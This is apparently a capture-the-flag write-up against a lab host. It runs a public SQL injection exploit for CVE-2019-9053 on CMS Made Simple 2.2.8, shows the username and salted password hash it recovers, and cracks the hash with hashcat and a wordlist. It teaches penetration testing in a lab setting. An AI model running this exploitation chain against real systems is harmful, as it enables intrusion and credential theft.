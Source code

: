 ```bash
===============================================================
```

I go to http://target.thm/simple. This brings up a page that talks about CMS Made Simple. It is running version 2.2.8. I run the following command to see if I can find a vulnerability:

```bash
$ searchsploit cms made simple 2.2.8
-------------------------------------------------- ---------------------------------
 Exploit Title                                    |  Path
-------------------------------------------------- ---------------------------------
CMS Made Simple < 2.2.10 - SQL Injection          | php/webapps/46635.py
-------------------------------------------------- ---------------------------------
```

I copy the script to my directory using:

```bash
$ searchsploit -m 46635
```

This copies a file to my directory called 46635.py. Near the top of this file, it says that this script is based off CVE-2019-9053.

## To what kind of vulnerability is the application vulnerable?

Again, near the top of the 46635.py it says that this is for a SQL Injection attack, often called sqli.

This script was made using python 2 and that reached end of life January 2020. Since the attack box runs python 2, it is possible to run this script but I needed to install a dependency. The dependency is termcolor and the last version before 2020 was 1.1.0. Here is what I ran:

```bash
$ pip install termcolor==1.1.0
$ python 46635.py -u http://target.thm/simple/
[+] Salt for password found: 1dac0d92e9fa6bb2
[+] Username found: mitch
[+] Email found: admin@admin.com
[+] Password found: 0c01f4468bd75d7a84c7eb73846e8d96
```

## What's the password?

I saved the password and salt to a file with the following command:

```bash
$ echo "0c01f4468bd75d7a84c7eb73846e8d96:1dac0d92e9fa6bb2" > hash.txt
```

I looked up the documentation for [hashcat](https://hashcat.net/wiki/doku.php?id=example_hashes) and found that this is a mode 20 hash. I run the following command:

```bash
$ hashcat -m 20 -a 0 hash.txt /usr/share/wordlists/rockyou.txt
...
Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344384
* Bytes.....: 139921497
* Keyspace..: 14344384

0c01f4468bd75d7a84c7eb73846e8d96:1dac0d92e9fa6bb2:REDACTED

Session..........: hashcat
Status...........: Cracked
...
```